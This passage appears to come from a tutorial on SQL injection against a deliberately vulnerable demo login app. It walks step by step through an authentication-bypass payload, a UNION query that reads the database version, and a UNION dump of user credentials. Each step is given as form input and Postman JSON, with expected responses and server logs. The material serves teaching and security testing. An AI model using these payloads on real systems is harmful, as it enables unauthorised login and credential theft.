 **Why it works:** The query becomes:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```

The `OR '1'='1'` clause is always true, so the query returns at least one row.

#### Step 2: Extract Database Information

**Payload to list database version:**
```
username: admin
password: ' UNION SELECT NULL, sqlite_version(), NULL--
```

**Using Postman:**
```json
{"username":"admin","password":"' UNION SELECT NULL, sqlite_version(), NULL--"}
```

**Why it works:** The query becomes:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' UNION SELECT NULL, sqlite_version(), NULL--;
```

The `--` comments out the rest, and UNION returns database metadata.

#### Step 3: Dump User Credentials

**Payload to extract all user records:**
```
username: admin
password: ' UNION SELECT id, username, password FROM users--
```

**Using Postman:**
```json
{"username":"admin","password":"' UNION SELECT id, username, password FROM users--"}
```

**Expected Response:**
```json
{
  "success": true,
  "message": "VULN login success for user: admin",
  "accessToken": "...",
  "refreshToken": "...",
  "rows": [
    {"id": 1, "username": "admin", "password": "admin123"},
    {"id": 2, "username": "alice", "password": "alicepass"},
    {"id": 3, "username": "bob", "password": "bobpass"}
  ]
}
```

**Server Console Output:**
You'll see the exact SQL that was constructed:
```
🔴 [VULN] Constructed SQL: SELECT * FROM users WHERE username = 'admin' AND password = '' UNION SELECT id, username, password FROM users--';
```

---
